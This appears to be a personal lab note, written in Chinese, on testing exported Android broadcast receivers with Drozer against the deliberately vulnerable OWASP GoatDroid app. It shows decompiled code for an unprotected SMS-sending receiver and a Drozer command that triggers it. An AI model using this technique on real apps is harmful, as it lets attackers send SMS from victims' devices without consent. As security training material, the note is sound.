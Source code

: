 ```yaml
---
title: Test Sieve - broadcast receivers exported
tags: [Android, Drozer]

---
```


# Test Sieve - broadcast receivers exported
這個就不是用Sieve做示範，因為這個App沒有match的receiver
```bash
dz> run app.broadcast.info -a com.mwr.example.sieve
Attempting to run shell module
Package: com.mwr.example.sieve
  No matching receivers.
```
所以我就用之前安裝的goatdroid做示範
1. 檢查broadcast receiver
    ```bash
    dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats
    Attempting to run shell module
    Package: org.owasp.goatdroid.fourgoats
      org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver
        Permission: null
    ```
2. 確認後就逆向看一下
    在`org.owasp.goatdroid.fourgoats.broadcastreceivers`中有SendSMSNowReceiver這個class，內容如下:
    ```java
    public class SendSMSNowReceiver extends BroadcastReceiver {
        Context context;

        @Override // android.content.BroadcastReceiver
        public void onReceive(Context arg0, Intent arg1) {
            this.context = arg0;
            SmsManager sms = SmsManager.getDefault();
            Bundle bundle = arg1.getExtras();
            sms.sendTextMessage(bundle.getString("phoneNumber"), null, bundle.getString("message"), null, null);
            Utils.makeToast(this.context, Constants.TEXT_MESSAGE_SENT, 1);
        }
    }
    ```
3. Send Something
    此時我們就可以用drozer發出一個intent，但是在發出之前要看一下AndroidManifest.xml中對於receiver的描述如下，如果想知道這個intent-filter代表的事情可以參考[^chatgpt-intent-filter]，簡單來說就是所有app都可以發出broadcast，那什麼樣的intent會被goatdroid所接收呢?就是帶有`org.owasp.goatdroid.fourgoats.SOCIAL_SMS`這個action才會被接收，並且觸發onReceive這個function
    ```xml
    <manifest versionCode="1" versionName="1.0" package="org.owasp.goatdroid.fourgoats">
      ...
      <application theme="@2131361870" label="@2131296266" icon="@2130837632" debuggable="true">
        ...
        <receiver label="Send SMS" name=".broadcastreceivers.SendSMSNowReceiver">
          <intent-filter>
            <action name="org.owasp.goatdroid.fourgoats.SOCIAL_SMS"></action>
          </intent-filter>
        </receiver>
      </application>
      ...
    </manifest>
    ```
    ```bash!
    dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats.broadcastreceivers SendSMSNowReceiver --extra string phoneNumber 123456789 --extra string message "Hello mate!"
    ```
    因為fourgoat這個App需要一個server，但是原作把server的link下架了，所以我也不知道實際送出這個broadcast會有什麼效果，但就是先紀錄起來，之後有機會可以用